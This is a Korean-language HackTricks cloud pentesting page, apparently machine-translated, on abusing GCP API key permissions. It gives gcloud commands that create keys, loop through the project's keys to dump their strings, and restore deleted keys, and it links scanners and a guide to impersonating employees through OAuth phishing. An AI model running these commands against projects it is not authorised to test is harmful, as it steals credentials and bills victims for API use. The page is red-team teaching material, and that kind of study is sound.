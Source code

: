 # GCP - Apikeys 권한 상승

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## Apikeys

다음 권한은 API 키를 생성하고 도용하는 데 유용합니다. 문서에서는 다음과 같이 설명합니다: _API 키는 **주체 없이 응용 프로그램을 식별하는 간단한 암호화된 문자열**입니다. **공개 데이터에 익명으로 액세스**하는 데 유용하며, 할당량 및 **청구**를 위해 API 요청을 **프로젝트와 연결**하는 데 사용됩니다._

따라서 API 키를 사용하면 해당 회사가 API 사용에 대한 비용을 지불하도록 할 수 있지만 권한 상승은 할 수 없습니다.

API 키에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

API 키를 생성하는 다른 방법에 대해서는 다음을 확인하세요:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### API 키 액세스 무차별 대입 공격 <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

프로젝트에서 활성화된 API 또는 찾은 API 키에 적용된 제한을 모를 수 있으므로 [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) 도구를 실행하여 **API 키로 액세스할 수 있는 내용을 확인**하는 것이 좋습니다.

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

이 권한은 **API 키를 생성**할 수 있습니다.
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
[**취약 환경의 생성, 악용 및 정리를 자동화하는 스크립트를 여기에서 찾을 수 있습니다**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
기본적으로 사용자는 새 프로젝트를 생성할 수 있는 권한을 가지며 새 프로젝트에 Owner 역할이 부여됩니다. 따라서 사용자는 **프로젝트를 생성하고 이 프로젝트 내에 API 키를 생성**할 수 있습니다.
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

이러한 권한은 **모든 apiKeys를 나열하고 가져오며 키를 가져오는 것을 허용**합니다.
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
다음은 취약한 환경의 생성, 악용 및 정리를 자동화하는 스크립트를 찾을 수 있습니다.

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

이 권한은 **삭제된 API 키를 나열하고 재생성**할 수 있게 합니다. **API 키는** **undelete** 작업 후 **출력으로 제공됩니다**.
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### 내부 OAuth 애플리케이션 생성하여 다른 직원들을 사칭하기

다음 페이지를 확인하여이 작업을 수행하는 방법을 알아보세요. 그러나이 작업은 서비스 **`clientauthconfig`**에 속한다고 [문서](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin)에 나와 있습니다:

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}
